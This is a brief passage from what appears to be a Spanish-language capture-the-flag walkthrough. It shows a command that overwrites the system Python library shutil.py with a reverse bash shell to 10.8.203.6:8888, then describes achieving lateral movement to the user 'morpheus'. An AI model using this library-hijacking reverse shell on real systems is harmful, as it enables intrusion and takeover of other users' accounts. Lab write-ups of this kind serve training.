 ```python
	echo "import os; os.system(\"bash -c 'bash -i >& /dev/tcp/10.8.203.6/8888 0>&1'\")" > /usr/lib/python3.8/shutil.py
```

### de esta manera vamos a editar la librería y vamos a inyectar una shell y nos pondremos en escucha en el puerto que hemos especificado
![[Pasted image 20240612143416.png]]

### de esta manera hemos logrado hacer el movimiento lateral hacia el usuario morpheus

### WE ARE MORPHEUS

